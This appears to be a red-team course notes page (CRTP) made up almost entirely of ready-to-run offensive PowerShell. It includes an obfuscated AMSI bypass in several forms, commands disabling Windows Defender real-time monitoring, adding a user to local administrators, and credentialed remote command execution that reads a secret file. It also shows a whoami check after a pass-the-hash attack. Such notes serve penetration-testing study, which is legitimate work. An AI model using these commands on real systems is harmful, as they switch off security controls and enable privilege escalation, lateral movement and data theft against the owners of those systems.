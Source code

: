 ```yaml
---
title: "05. Miscellaeous Notes"
section: "crtp"
date: 2022-04-06
tags: ["Basic", "misc"]
---
```


## Bypass AMSI

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

#Base64
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

#On PowerShell 6
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('s_amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

## Bypass Real-Time-monitoring
```powershell
Powershell Set-MpPreference -DisableRealtimeMonitoring $true
Powershell Set-MpPreference -DisableIOAVProtection $true
powershell set-MpPreference -DisableAutoExclusions $true
```

## Create PowerShell credentials and execute commands
```powershell
$pass = ConvertTo-SecureString "Password123!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("CORP\john", $pass)

# Enter PSSession
Enter-PSSession -computername ATSSERVER -ConfigurationName dc_manage -credential $cred

# New-PSSession


# Invoke-command for command injection
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $cred -command {whoami}
```

## Adding User to local administrator group
```powershell
net localgroup administrators user /add
```

## Running commands in a specific user context in PowerShell
```powershell
powershell.exe -c "$user='WORKGROUP\John'; $pass='password123'; try { Invoke-Command -ScriptBlock { Get-Content C:\Users\John\Desktop\secret.txt } -ComputerName Server123 -Credential (New-Object System.Management.Automation.PSCredential $user,(ConvertTo-SecureString $pass -AsPlainText -Force)) } catch { echo $_.Exception.Message }" 2>&1
```


## Command to check whoami after pass-the-hash attack
Send whoami query to root dc domain of the forest
```powershell
Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

## Turn off Windows firewall

![[Pasted image 20240527230310.png]]
